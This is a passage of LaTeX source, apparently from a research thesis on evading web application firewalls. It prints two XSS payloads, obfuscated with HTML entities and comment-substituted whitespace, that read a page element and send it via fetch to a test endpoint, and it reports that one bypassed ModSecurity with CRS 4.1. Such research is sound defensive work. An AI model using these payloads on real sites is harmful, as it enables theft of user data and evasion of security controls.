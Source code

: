 \begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0]&^\#^46innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}
After injecting this payload into the \acrshort{html} document during validation, it turned out that the resulting \acrshort{html} code was split according to the whitespaces given in the JavaScript statements. A similar case to what was observed in Section~\ref{sec:funconstrconbypass}.
Whitespaces contained in the JavaScript statements of the bypassing but invalid payload were substituted by comments, as stated under Section~\ref{sec:jscommentsub}, to create the payload:

\begin{lstlisting}[style=basicStyle, caption=Secret exfiltration XSS bypass, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var/**/secret/**/=/**/document.getElementsByName('name')[0]&^\#^46innerHTML;var/**/data/**/=/**/{body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}
When sent in a request towards the web application, this payload bypassed the ModSecurity firewall using \acrshort{crs} 4.1 and was successfully validated on the target.


%
%
%
%
%
%
